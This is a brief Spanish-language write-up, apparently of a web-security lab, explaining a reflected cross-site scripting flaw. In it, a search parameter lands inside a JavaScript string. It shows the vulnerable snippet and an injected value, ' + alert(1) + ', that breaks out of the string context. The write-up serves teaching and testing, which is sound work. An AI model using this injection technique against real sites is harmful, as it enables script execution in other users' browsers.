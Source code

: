 https://www.youtube.com/watch?v=eIHGNgibcjA
En un inicio el código no aparece en la página cuando hacemos la petición get en el campo de búsqueda se refleja el parámetro search en una variable de javascript, como podemos ver : 
```javascript
var searchTerms = 'test';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
```

```javascript
var searchTerms = '' + alert(1) + '';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
```